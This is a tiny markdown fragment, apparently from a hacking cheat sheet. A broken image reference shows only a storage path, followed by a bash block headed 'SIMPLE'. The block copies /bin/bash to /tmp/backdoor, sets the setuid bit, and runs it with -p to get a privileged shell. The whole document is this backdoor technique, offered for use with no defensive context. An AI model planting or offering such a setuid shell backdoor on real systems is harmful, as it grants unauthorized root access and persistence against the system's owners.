 
## SIMPLE
```bash
cp /bin/bash /tmp/backdoor 
chmod u+s /tmp/backdoor
    
exploit -> /tmp/backdoor -p
```